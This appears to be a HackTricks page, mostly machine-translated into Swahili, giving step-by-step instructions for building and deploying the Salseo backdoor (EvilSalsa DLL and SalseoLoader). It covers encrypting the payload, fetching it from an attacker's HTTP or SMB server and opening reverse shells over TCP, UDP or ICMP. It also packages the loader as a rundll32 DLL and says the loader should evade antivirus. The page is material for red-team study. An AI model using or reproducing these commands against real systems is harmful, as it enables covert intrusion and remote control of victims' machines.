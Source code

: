 # Salseo

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compiling the binaries

Pakua msimbo wa chanzo kutoka github na uunde **EvilSalsa** na **SalseoLoader**. Utahitaji **Visual Studio** iliyosakinishwa ili kuunda msimbo huo.

Unda miradi hiyo kwa ajili ya usanifu wa sanduku la windows ambapo unakusudia kuyatumia (Ikiwa Windows inasaidia x64 uunde kwa usanifu huo).

Unaweza **kuchagua usanifu** ndani ya Visual Studio katika **"Build" Tab** ya **kushoto "Platform Target".**

(\*\*Ikiwa huwezi kupata chaguo hili bonyeza kwenye **"Project Tab"** kisha kwenye **"\<Project Name> Properties"**)

![](<../.gitbook/assets/image (839).png>)

Kisha, jenga miradi yote miwili (Build -> Build Solution) (Ndani ya logi zitaonekana njia ya executable):

![](<../.gitbook/assets/image (381).png>)

## Prepare the Backdoor

Kwanza kabisa, utahitaji kuandika **EvilSalsa.dll.** Ili kufanya hivyo, unaweza kutumia script ya python **encrypterassembly.py** au unaweza kuunda mradi **EncrypterAssembly**:

### **Python**
```
python EncrypterAssembly/encrypterassembly.py <FILE> <PASSWORD> <OUTPUT_FILE>
python EncrypterAssembly/encrypterassembly.py EvilSalsax.dll password evilsalsa.dll.txt
```
### Windows
```
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsax.dll password evilsalsa.dll.txt
```
Ok, sasa una kila kitu unachohitaji kutekeleza mambo yote ya Salseo: **encoded EvilDalsa.dll** na **binary ya SalseoLoader.**

**Pakia binary ya SalseoLoader.exe kwenye mashine. Hazipaswi kugundulika na AV yoyote...**

## **Tekeleza backdoor**

### **Kupata TCP reverse shell (kupakua dll iliyosimbwa kupitia HTTP)**

Kumbuka kuanzisha nc kama msikilizaji wa reverse shell na seva ya HTTP kutoa evilsalsa iliyosimbwa.
```
SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>
```
### **Kupata shell ya UDP reverse (kupakua dll iliyokodishwa kupitia SMB)**

Kumbuka kuanzisha nc kama msikilizaji wa shell ya reverse, na seva ya SMB kutoa evilsalsa iliyokodishwa (impacket-smbserver).
```
SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>
```
### **Kupata ICMP reverse shell (dll iliyosimbwa tayari ndani ya mwathirika)**

**Wakati huu unahitaji chombo maalum kwenye mteja kupokea reverse shell. Pakua:** [**https://github.com/inquisb/icmpsh**](https://github.com/inquisb/icmpsh)

#### **Zima Majibu ya ICMP:**
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```
#### Tekeleza mteja:
```
python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"
```
#### Ndani ya mwathiriwa, hebu tuendeshe jambo la salseo:
```
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>
```
## Kuunda SalseoLoader kama DLL inayosafirisha kazi kuu

Fungua mradi wa SalseoLoader ukitumia Visual Studio.

### Ongeza kabla ya kazi kuu: \[DllExport]

![](<../.gitbook/assets/image (409).png>)

### Sakinisha DllExport kwa mradi huu

#### **Zana** --> **Meneja wa Kifurushi cha NuGet** --> **Simamisha Kifurushi cha NuGet kwa Suluhisho...**

![](<../.gitbook/assets/image (881).png>)

#### **Tafuta kifurushi cha DllExport (ukitumia kichupo cha Kagua), na bonyeza Sakinisha (na kubali popup)**

![](<../.gitbook/assets/image (100).png>)

Katika folda yako ya mradi, faili zifuatazo zimeonekana: **DllExport.bat** na **DllExport\_Configure.bat**

### **U**ondoe DllExport

Bonyeza **Ondoa** (ndiyo, ni ajabu lakini ni muhimu)

![](<../.gitbook/assets/image (97).png>)

### **Toka Visual Studio na tekeleza DllExport\_configure**

Tu **toka** Visual Studio

Kisha, nenda kwenye **folda ya SalseoLoader** yako na **tekeleza DllExport\_Configure.bat**

Chagua **x64** (ikiwa unakusudia kuitumia ndani ya sanduku la x64, hiyo ilikuwa kesi yangu), chagua **System.Runtime.InteropServices** (ndani ya **Namespace kwa DllExport**) na bonyeza **Tumia**

![](<../.gitbook/assets/image (882).png>)

### **Fungua mradi tena na visual Studio**

**\[DllExport]** haipaswi kuwa na alama ya kosa tena

![](<../.gitbook/assets/image (670).png>)

### Jenga suluhisho

Chagua **Aina ya Matokeo = Maktaba ya Darasa** (Mradi --> SalseoLoader Mali --> Programu --> Aina ya matokeo = Maktaba ya Darasa)

![](<../.gitbook/assets/image (847).png>)

Chagua **jukwaa la x64** (Mradi --> SalseoLoader Mali --> Jenga --> Lengo la jukwaa = x64)

![](<../.gitbook/assets/image (285).png>)

Ili **kujenga** suluhisho: Jenga --> Jenga Suluhisho (Ndani ya console ya Matokeo, njia ya DLL mpya itaonekana)

### Jaribu Dll iliyozalishwa

Nakili na ubandike Dll mahali unapotaka kuijaribu.

Tekeleza:
```
rundll32.exe SalseoLoader.dll,main
```
Ikiwa hakuna kosa linalojitokeza, huenda una DLL inayofanya kazi!!

## Pata shell ukitumia DLL

Usisahau kutumia **HTTP** **server** na kuweka **nc** **listener**

### Powershell
```
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```
### CMD
```
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```
{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}

